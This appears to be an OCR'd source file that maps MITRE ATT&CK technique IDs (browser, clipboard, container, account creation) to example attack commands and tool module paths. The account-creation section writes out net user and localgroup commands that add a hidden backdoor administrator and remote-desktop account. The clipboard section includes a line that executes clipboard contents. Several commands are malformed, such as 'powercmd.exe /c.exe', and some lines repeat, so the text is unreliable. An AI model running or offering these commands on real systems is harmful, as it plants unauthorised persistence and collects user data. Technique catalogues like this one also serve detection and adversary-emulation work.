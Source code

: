 ##T1176: Browser Extensions
##T1185: Browser Session Hijacking
##T1110: Brute Force
* powercmd.exe /c/recon/get_sql_server_login_default_pw
* powercmd.exe /c/recon/http_login
##T1612: Build Image on Host
##T1115: Clipboard Data
* echo Get-Process | clip
Get-Clipboard | iex
* echo ifconfig | pbcopy
$(pbpaste)
* dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
* Get-Clipboard -raw
* pbpaste
* xclip -o
* cmd.exe <command> | clip
* cmd.exe clip < readme.txt
* powercmd.exe /c.exe echo Get-Process | clip
* powercmd.exe /c.exe echo Get-Process | clip
* powercmd.exe /c/collection/clipboard_monitor
* python/collection/osx/clipboard
##T1580: Cloud Infrastructure Discovery
##T1538: Cloud Service Dashboard
##T1526: Cloud Service Discovery
##T1619: Cloud Storage Object Discovery
##T1059: Command and Scripting Interpreter
* \\Windows\\.+\\cmd.exe
* cmd.exe|/c
* powercmd.exe /c/lateral_movement/invoke_sqloscmd
* powercmd.exe /c/management/spawnas
##T1043: Commonly Used Port
##T1092: Communication Through Removable Media
##T1175: Component Object Model and Distributed COM
##T1586: Compromise Accounts
##T1554: Compromise Client Software Binary
##T1584: Compromise Infrastructure
##T1609: Container Administration Command
* kubectl create -f src/busybox.yaml -n #{namespace}
kubectl exec -n #{namespace} busybox -- uname
* kubectl create -f src/busybox.yaml -n default
kubectl exec -n default busybox -- #{command}
##T1613: Container and Resource Discovery
##T1136: Create Account
* Add backdoor user account:
net user support_388945a0 somepasswordhere /add /y
net localgroup administrators support_388945a0 /add
net localgroup "remote desktop users" support_388945a0 /add
* Add backdoor user account:
cmd.exe /c net user support_388945a0 somepasswordhere /add /y
cmd.exe /c net localgroup administrators support_388945a0 /add
cmd.exe /c net localgroup "remote desktop users" support_388945a0 /add
* Enable backdoor user account:
net user support_388945a0 /active:yes
net localgroup administrators support_388945a0 /add
net localgroup "remote desktop users" support_388945a0 /add
* Enable backdoor user account:
cmd.exe /c net user support_388945a0 /active:yes
cmd.exe /c net localgroup administrators support_388945a0 /add
cmd.exe /c net localgroup "remote desktop users" support_388945a0 /add
* Net.exe user /add
* Net.exe localgroup administrators * /add
* Net.exe user * \password \domain